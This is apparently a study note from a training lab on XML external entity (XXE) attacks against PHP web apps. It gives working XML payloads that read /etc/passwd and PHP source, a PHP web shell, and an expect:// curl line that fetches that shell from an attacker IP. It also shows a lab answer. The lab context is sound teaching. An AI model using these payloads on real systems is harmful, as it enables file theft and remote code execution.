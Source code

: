 ```yaml
---
description: >-
  When a web application trusts unfiltered XML data from user input, we may be
  able to reference an external XML DTD document and define new custom XML
  entities
---
```


# Local File Disclosure

## Identification

1. find page that accept XML input

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_identify.jpg" alt=""><figcaption><p>http://SERVER_IP:PORT/index.php</p></figcaption></figure>

if we click Send Data, the request will be as following

![xxe\_request](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_request.jpg)

The application is sending data in XML format to web server. If the web app uses outdated XML libraries and sanitize or have any filters, we may be able to exploit this XML to read local files.

![xxe\_response](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_response.jpg)

The value of email element is returned back to us `email@xxe.htb`. This is **important to know what element is displayed back** so we know where to inject.

Now try to create new entity to be placed in the `email` element and see if it gets replaced with the defined value.

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

{% hint style="info" %}
In the original request it has no DTD in the XML data or being referenced externally so we add new DTD before defining our entity (if DOCTYPE was already defined, we can just ignore it and add the entity alone)
{% endhint %}

![new\_entity](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_new\_entity.jpg)

As seen in the response we referenced the entity and it was replaced with `Inlane Freight` This confirms that the web app is vulnerable to XXE.

> a non-vulnerable web application would display (`&company;`) as a raw value.

{% hint style="info" %}
Some web app may use JSON by default but also accept XML. So it's worth trying XML by changing the Content-Type to application/xml and [convert the JSON request to XML](https://www.convertjson.com/json-to-xml.htm)
{% endhint %}

## Reading Sensitive Files

Doing the same steps as [Identification](local-file-disclosure.md#identification) but we will add the SYSTEM keyword and define external reference path as a value after it.

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

![external\_entity](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_external\_entity.jpg)

**we have successfully exploited the XXE vulnerability to read local files**

> Check for config files, SSH keys, and other use full files that might help on compromising the system.

## Reading Source Code

This might reveal secret configurations like database passwords or API keys.

![file\_php](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_file\_php.jpg)

**The file is not in a proper XML format**, so it fails to be referenced as an external XML entity. **If a file contains some of XML's special characters (e.g. \</>/&), it would break the external entity reference** and not be used for the reference.

We can use PHP wrapper filter to encode the contents to base64, Instead of using `file://` we use `php://filter/` wrapper and specify `convert.base64-encode` following with the file name.

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

![file\_php](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_php\_filter.jpg)

{% hint style="warning" %}
This encoding technique only works with PHP web app!
{% endhint %}

## RCE with XXE

Best way

* Look for `id_rsa` file, or
* Steal hash from windows

**Other way**

* Execute command using `PHP://expect` (only works when expect is installed and enabled)

Most efficient to turn XXE -> RCE is fetching web shell from our server and writing it to web app

**On attack machine**

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

**XML body**

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

&#x20;Note that all spaces are replaced with $IFS as learned in [filter-evasion.md](../../command-injection/filter-evasion.md "mention") to not break the syntax (other special characters may break the code so try avoiding them)

Once sent we will get the recieve message for shell.php file in our console and we can interact with the web shell for code execution.

## Other XXE Attacks

* **SSRF exploitation ->** used to enumerate locally open ports and access their pages
* **DOS ->** causing self-reference loops
  * no longer works on modern web servers becase they protect against entitiy self-reference

## Assessment

Try to read the content of the 'connection.php' file, and submit the value of the 'api\_key' as the answer.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption><p>email element is the target</p></figcaption></figure>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY target SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
<root>
<name></name>
<tel></tel>
<email>&target;</email>
<message></message>
</root>
```

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption><p>UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg</p></figcaption></figure>
